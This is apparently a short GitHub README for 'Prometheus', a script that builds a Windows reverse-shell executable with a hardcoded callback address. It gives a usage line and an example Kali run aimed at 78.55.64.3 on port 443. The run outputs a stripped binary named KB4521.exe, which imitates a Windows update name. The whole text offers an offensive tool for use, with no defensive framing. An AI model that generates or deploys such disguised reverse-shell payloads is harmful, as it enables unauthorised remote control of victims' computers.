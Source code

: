 # Prometheus
Prometheus quickly generates and compiles a new reverse shell PE with a hardcoded socket address.  

[Usage]: ./prometheus.sh <IP> <PORT>

[Example]:

root@kali:/opt/Prometheus# ./prometheus.sh 78.55.64.3 443

Building Custom Reverse Shell Executable...

Souce code complete...
Compiling...

Cleaning up...

Done. 
Support The Free Information Movement

-rwxr-xr-x 1 root root 13312 Feb  1 10:44 KB4521.exe
KB4521.exe: PE32 executable (console) Intel 80386 (stripped to external PDB), for MS Windows

